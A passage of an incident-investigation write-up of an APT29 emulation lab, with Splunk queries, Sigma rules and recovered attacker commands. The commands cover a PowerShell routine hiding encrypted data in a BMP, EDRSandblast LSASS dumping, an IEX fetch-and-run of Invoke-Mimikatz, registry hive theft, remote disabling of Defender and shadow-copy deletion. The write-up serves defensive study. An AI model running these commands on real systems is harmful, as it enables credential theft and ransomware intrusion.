# Encrypt the concatenated compressed data
$encryptedData = Encrypt-Data -data $allCompressedData -key $key

# Convert the encrypted data to Base64 and encode it
$base64Data = [Convert]::ToBase64String($encryptedData)
$encodedData = "***" + $base64Data

# Create a new random BMP file
$outputBmpPath = "C:\Windows\Temp\" + (Get-RandomFileName)
$width = 1920
$height = 1080
$bitmap = New-Object Drawing.Bitmap $width, $height
$graphics = [Drawing.Graphics]::FromImage($bitmap)
$graphics.Clear([Drawing.Color]::White)
$bitmap.Save($outputBmpPath, [Drawing.Imaging.ImageFormat]::Bmp)
$graphics.Dispose()
$bitmap.Dispose()

# Read the newly created BMP file
$bmpBytes = [System.IO.File]::ReadAllBytes($outputBmpPath)

# Embed the encoded data into the BMP file
$startIndex = 54 # BMP header is typically 54 bytes
$encodedBytes = [System.Text.Encoding]::UTF8.GetBytes($encodedData)
[Array]::Copy($encodedBytes, 0, $bmpBytes, $startIndex, $encodedBytes.Length)

# Save the modified BMP file
[System.IO.File]::WriteAllBytes($outputBmpPath, $bmpBytes)
Write-Output "Output BMP Path: $outputBmpPath"
```

### 7.5 EDRSandblast: Bypassing EDR

During the investigation of command execution via `smss64.exe`, I found evidence of the tool [EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) being used. This PoC exploit tool is specifically designed to bypass EDR systems by exploiting vulnerable signed drivers, a technique often referred to as "Bring Your Own Vulnerable Driver" (BYOVD). Based to the [tool's documentation on GitHub](https://github.com/wavestone-cdt/EDRSandblast), EDRSandblast relies on kernel and userland bypasses that require precise memory offsets. This explains why the attacker extracted `ntoskrnl.exe` and `wdigest.dll` from JB01, as they needed the exact offsets for the targeted Windows version/build to reliably disable EDR monitoring mechanisms and enable WDigest without crashing the system.

#### 7.5.1 EDR Bypass

I discovered multiple events related to EDRSandblast at `17:46:41`, `17:47:36`, and `17:48:03`.



At `17:46:41`, the threat actor used `firewall` feature in EDRSandblast, which allowed them to add Windows Firewall rules to block network access for the EDR processes/services ([T1562.004](https://attack.mitre.org/techniques/T1562/004/)).

```sh
EDRSandblast.exe firewall --kernelmode --usermode -i
```

To confirm this, I filtered for EID `4946` to check if any firewall rules were created. At `17:46:54`, I found 14 rules added with random suspicious names, confirming this command was executed successfully.



#### 7.5.2 Enabling WDigest Plaintext Passwords Storage

At `17:47:36`, the threat actor used the `credguard` feature in EDRSandblast to patch two global variables `g_fParameter_useLogonCredential` and `g_IsCredGuardEnabled` within `wdigest.dll`. This allowed new logon credentials to be stored in plaintext.

Normally, this would trigger `WriteProcessMemory` calls to LSASS, but because EDRSandblast relies on hardcoded offsets for these two variables (extracting them from the exfiltrated files), it's a more OPSEC-friendly way to do it.

```sh
EDRSandblast.exe credguard --usermode -i
```

> **Danger**
> Although the tool's documentation refers to this as a "Credential Guard bypass," it's important to clarify that Credential Guard was never designed to prevent WDigest from being enabled. In fact, one of its limitations is that it does not protect against WDigest credentials.
>
> The change performed by EDRSandblast's `credguard` can be similarly achieved by simply modifying the `UseLogonCredential` registry key (setting it to 1), but the threat actor preferred to use a more stealthy way (using `credguard`), as this registry key is heavily monitored, and would easily reveal the attackers activity.
>
> You can read more details about how these values are patched in the "[Bypassing Credential Guard](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/)" article by Team Hydra.
>
> Credit goes to [Fady Assaad](https://www.linkedin.com/in/fadyassaadhimself/) for pointing this out.

#### 7.5.3 BYOVD Exploitation (GDRV.sys)

Lastly at `17:48:03`, the threat actor exploited a known vulnerable driver, `GDRV.sys` (associated with [CVE-2018-19320](https://nvd.nist.gov/vuln/detail/CVE-2018-19320)), to achieve kernel-level arbitrary read/write access ([T1068](https://attack.mitre.org/techniques/T1068/)). 

The threat actor used this driver to dump the LSASS process memory ([T1003.001](https://attack.mitre.org/techniques/T1003/001/)) using the `dump` feature (which dumps LSASS by default). The memory DMP file was saved to `C:\Windows\Temp\`, and then compressed into a ZIP file, likely for exfiltration.

```sh
EDRSandblast.exe dump --kernelmode --usermode --vuln-driver "C:\Windows\Temp\GDRV.sys" --process-name "lsass.exe" -o "C:\Windows\Temp\MpCmdRun-38-53C9D589-6B66-4F30-9BAB-9A0193B0BAFC.dmp" -i
```

The `--kernelmode` option triggers the loading of the vulnerable driver utilized (`GDRV.sys`), which allows gaining kernel-level access. 

To validate if the driver was loaded, I filtered for EID 6 (Driver Loaded) , and as expected I found one at `17:46:45` (after `firewall` action mode usage), and the other one at `17:48:03` (after using `dump` action mode).

```splunk-spl
index=main host=sql EventCode=6 ImageLoaded="*\\GDRV.sys"
| table _time, ImageLoaded
| sort + _time
```





#### 7.5.4 Confirming LSASS Dump

To confirm the LSASS memory dumping, I checked EID 10 (Process Access) at the same timeframe, and I found 3 events triggered, where EDRSandblast accessed LSASS.

```splunk-spl
index=main host=sql EventCode=10 TargetImage=*lsass.exe
| table _time, host, SourceImage, TargetImage, GrantedAccess
| sort + _time
```



Later at `17:48:29`, the attacker compressed the DMP file in a ZIP archive for exfiltration.

```powershell
Compress-Archive -Path "C:\Windows\Temp\MpCmdRun-38-53C9D589-6B66-4F30-9BAB-9A0193B0BAFC.dmp" -DestinationPath "C:\Windows\Temp\MpCmdRun-38-53C9D589-6B66-4F30-9BAB-9A0193B0BAFC.zip"
```

#### 7.5.5 SQL Server Files Exfiltration

Following that, the threat actor also compressed critical SQL server files (e.g., `sqlos.dll`, `sqlmin.dll`, and other DLLs) into `sql.zip` archive, probably again for exfiltration.

```powershell
Compress-Archive -Path "C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqlos.dll", "C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqlmin.dll", "C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqltses.dll", "C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqllang.dll", "C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\secforwarder.dll" -DestinationPath "C:\Windows\Temp\sql.zip"
```

#### 7.5.6 Cleaning Up Traces

Following that, the threat actor cleaned up traces of this activity:

```powershell
Remove-Item -Path "C:\Windows\Temp\EDRSandBlast.exe", "C:\Windows\Temp\MpCmdRun-38-53C9D589-6B66-4F30-9BAB-9A0193B0BAFC.dmp", "C:\Windows\Temp\MpCmdRun-38-53C9D589-6B66-4F30-9BAB-9A0193B0BAFC.zip", *.sys, *.pdb -Force
```

#### 7.5.7 Enabling LM Hash Storage

Next, the attacker enabled the storage of LM hashes in the SAM database by setting the `NoLMHash` registry value to `0`. LM hashes are legacy password hashes that are easier to crack offline, as LM hashes are significantly weaker than NT hashes.

```sh
C:\Windows\system32\cmd.exe /C reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v NoLMHash /t REG_DWORD /d "0" /f
```

#### 7.5.8 Dumping LSASS using Invoke-Mimikatz

Following that, at `17:53:09`, the threat actor downloaded and ran Invoke-Mimikatz from GitHub ([T1105](https://attack.mitre.org/techniques/T1105/)), executing it directly in memory. Once downloaded, several Mimikatz commands were executed:

```sh
# Enable debug rights
privilege::debug

# Extract cached domain credentials
lsadump::cach

# Dump LSA secrets
lsadump::secret

# Retrieve the SAM database hashes
lsadump::sam

# Capture logon credentials from LSASS
sekurlsa::logonpasswords
```

These credentials would probably be used for lateral movement, privilege escalation, or persistence within the environment.

```powershell
IEX ((New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1')); Invoke-Mimikatz -Command 'privilege::debug lsadump::cache lsadump::secrets lsadump::sam sekurlsa::logonpasswords'
```

To confirm LSASS memory dumping, I reviewed EID 10 (Process Access) around `17:53:35`. I found PowerShell accessing LSASS with `GrantedAccess` value of `0x1010` which is commonly associated with Invoke-Mimikatz credential dumping.

```splunk-spl
index=main host=sql EventCode=10 TargetImage=*lsass.exe
| table _time, host, SourceImage, TargetImage, GrantedAccess
| sort + _time
```



Continuing my analysis of Invoke-Mimikatz, I filtered for EID 800 and Mimikatz to check the output from Invoke-Mimikatz. From these logs, I identified that the domain admin account (`roby`) hash was dumped (in a real scenario, I would already be aware of domain admin accounts using friendly intel). 

The attacker likely identified roby's account while enumerating enumerating privileged groups using `net group "domain admins" /DOMAIN`.

```splunk-spl
index=*  host=sql EventCode=800  "mimikatz" 
| sort + _time
```





#### 7.5.9 Pass-the-Hash (PtH)

Once the **roby** account’s NTLM hash was obtained, I became suspicious that the attacker used those credentials to compromise the domain controller or other machines in the network. To validate this, I checked the events following **Invoke-Mimikatz** usage. 

At `18:07:14`, I observed two events in succession: 

* EID 4672 indicating special privileges assigned during a new logon, 
* Event ID 4624 with Logon Type 9 (NewCredentials), which appeared right afterward.

Given these events occurred immediately following the attacker’s credential dumping attempt, it strongly suggests a Pass-the-Hash (PtH) scenario ([T1550.002](https://attack.mitre.org/techniques/T1550/002/)).





#### 7.5.10 Registry Hives Exfiltration

Following Invoke-Mimikatz usage, at `17:54:08`, the attacker extracted the SECURITY, SYSTEM, and SAM registry hives using `reg save`, storing them in the `C:\Windows\temp\1` folder:

```powershell
New-Item -Path 'C:\Windows\temp\1' -ItemType Directory -Force; reg save HKLM\SYSTEM 'C:\Windows\temp\1\system.sa' /y; reg save HKLM\SAM 'C:\Windows\temp\1\sam.sa' /y; reg save HKLM\SECURITY 'C:\Windows\temp\1\security.sa' /y
```



Then at `17:54:35`, they compressed the folder into a ZIP file `hiv.zip` and later at `17:55:48` deleted both the folder and the ZIP file ([T1070.004](https://attack.mitre.org/techniques/T1070/004/)):

```
Compress-Archive -Path C:\Windows\temp\1\ -DestinationPath C:\Windows\temp\hiv.zip -Force

C:\Windows\system32\cmd.exe /C rmdir /S /Q C:\Windows\temp\1
C:\Windows\system32\cmd.exe /C del C:\Windows\temp\hiv.zip /F /Q

```



#### 7.5.11 Enumerating Domain Controller using PowerView

At `17:57:05` , I found this command:

```powershell
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:31883/'); Get-NetComputer
```

This indicated that the attacker likely ran [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/) (part of the PowerSploit post-exploitation framework) in memory via Cobalt Strike (using `powershell-import`). You can find a decent explanation for `powershell-import` functionality in the CrowdStrike blog called "[Getting the Bacon from the Beacon](https://www.crowdstrike.com/en-us/blog/getting-the-bacon-from-cobalt-strike-beacon/)".



I saw multiple PowerView commands being executed for domain reconnaissance, including:


```powershell
Get-NetComputer
Get-NetGroup, Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount
Get-NetDomain
Get-DomainUser
Get-NetUser -PreauthNotRequire
Get-NetComputer | select samaccountname
Get-NetUser -SPN | select serviceprincipalname

([adsisearcher]"((samaccountname=DC01$))").Findall().Properties
([adsisearcher]"((samaccountname=SQL$))").Findall().Properties 
([adsisearcher]"((samaccountname=IT01$))").Findall().Properties
([adsisearcher]"((samaccountname=MAIL$))").Findall().Properties
([adsisearcher]"((samaccountname=FS01$))").Findall().Properties
```


## 8. Lateral Movement

Starting at `18:08:34` and again `18:08:40`, I observed WMIC being used twice to disable Windows Defender ([T1562.001](https://attack.mitre.org/techniques/T1562/001/)) on DC01 (`10.10.0.4`).

```powershell
wmic /node:10.10.0.4 process call create "powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue; Set-MpPreference -ExclusionPath 'C:\Windows'; Get-Service WinDefend | Stop-Service -Force; Get-Service WinDefend | Stop-Service -Force; Set-Service WinDefend -StartupType Disabled"
```

After that, at `18:12:46`, the threat actor copied a DLL to the `C$` share of DC01 ([T1021.002](https://attack.mitre.org/techniques/T1021/002/)), and once it was copied, they executed it using `rundll32.exe`.



### 8.1 Validating Pass-the-Hash (PtH)

To confirm the Pass-the-Hash attack hypothesis (which I initially detected at `18:07:14`), I investigated the user context on DC01 at the same time the DLL was executed. At `18:14:03`, just three seconds after the command execution from the SQL server, a named pipe was created, and the DLL ran under the context of `CYBERRANGE\roby`, the domain admin whose credentials had been stolen, validating my hypothesis.





## 9. Impact: Ransomware Execution

Subsequently, between `18:35:54` and `18:47:45`, the threat actor repeated these steps on FS01, MAIL, and IT01 machines by remotely disabling Windows Defender via WMIC, then copying and executing DLL payloads (SMB  beacons).





Finally, from `18:52:15` until `19:00:14`, the threat actor deployed the ransomware remotely from the SQL machine to all other machines in the network and lastly installed it on the SQL machine itself. The threat actor installed the ransomware silently with the `/q` flag so that it ran quietly in the background.



## 10. Ransomware Activities

As determined earlier that the ransomware was executed only on JB01, SQL, and IT01, I went back to JB01 to examine the ransomware activities after execution of `abc.exe`, which was responsible for encrypting the files. Here are the commands that I found:

| Command                                             | Description                                                                                                                                                                                                                                                            |
| --------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/set {default} bootstatuspolicy ignoreallfailures` | Prevents Windows from initiating automatic repair on reboot, ensuring the system continues to boot normally. This makes it more difficult to roll back the attacker’s changes through standard recovery options ([T1490](https://attack.mitre.org/techniques/T1490/)). |
| `/set {default} recoveryenabled No`                 | Disables the Windows Recovery Environment (WinRE) entirely, blocking Windows built-in recovery tools that could otherwise be used to restore the system after the ransomware has taken effect ([T1490](https://attack.mitre.org/techniques/T1490/)).                   |
| `vssadmin Delete Shadows /All /Quiet`               | Deletes all Volume Shadow Copies, removing the system’s built-in backups and preventing file restoration from previous snapshots ([T1490](https://attack.mitre.org/techniques/T1490/)).                                                                                |
| `wevtutil cl "<log_source>"`                        | Clears the specified Windows event log, eliminating records that might otherwise reveal the attacker’s activities ([T1070.001](https://attack.mitre.org/techniques/T1070/001/)).                                                                                       |
| `cmd "C:\Windows\TEMP\zdfAzo.bat"`                  | Executing a randomly named `.bat` file located in the Temp folder which was deployed by the ransomware.                                                                                                                                                                |
| `schtasks /delete /f /tn "abc"`                     | Deletes a specific scheduled task (`abc`), which was set up to establish persistence for the ransomware executable ([T1070.009](https://attack.mitre.org/techniques/T1070/009/)).                                                                                      |





## 11. Sigma Detection/Hunting Rules

My investigation initially took a generic approach (having no intel), independent of any specific APT or threat actor. In reality, using threat intelligence would provide a more targeted, guided, and efficient investigation.

I’ve created multiple Sigma detection rules to detect/hunt the APT29 TTPs mentioned in this article and the main [CISA report](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-347a), and grouped them in a GitHub repository “[Sigma APT29 Detection](https://github.com/moex01/apt29-sigma-rules)." I've tested all of these rules in Splunk against this attack. You can fine-tune them to fit your environment and incorporate them into your detections/hunts.

## 12. Conclusion

This is a detailed analysis of an APT29 emulation scenario from [CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/teamcity-exploit/), based on the CISA report *"*[*Russian Foreign Intelligence Service (SVR) Exploiting JetBrains TeamCity CVE Globally*](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-347a)*,"* with some minor differences. Two things stood out as deviations from APT29’s known TTPs. First, while the report mentioned [CVE-2023-42793](https://nvd.nist.gov/vuln/detail/cve-2023-42793) as the exploited vulnerability, this scenario involved [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/cve-2024-27198) instead. The other difference was the use of ransomware, which isn’t something APT29 is known for, as they’re primarily an espionage-focused nation-state group.

That aside, the scenario still closely mimics APT29’s behavior, making it a solid learning experience in tracking their activities and investigating a case from initial access to ransomware deployment.

It took me around a week to write this report, and I've learned a lot during this process. I still think there are several areas where I can improve and make the process even more efficient.

Feel free to share your feedback and suggestions.

## 13. References

* <https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-347a>
* <https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/>
* <https://logan-goins.com/2024-02-03-CS/>
* <https://thedfirreport.com/2021/08/29/cobalt-strike-a-defenders-guide/>
* <https://www.secpulse.com/archives/198531.html>
* <https://www.ultimatewindowssecurity.com/>
* <https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/how-it-works>
* <https://itm4n.github.io/credential-guard-bypass/>
* <https://teamhydra.blog/2020/08/25/bypassing-credential-guard/>
* <https://www.splunk.com/en_us/blog/security/you-bet-your-lsass-hunting-lsass-access.html>
* <https://www.crowdstrike.com/en-us/blog/getting-the-bacon-from-cobalt-strike-beacon/>
* <https://github.com/SigmaHQ/sigma>
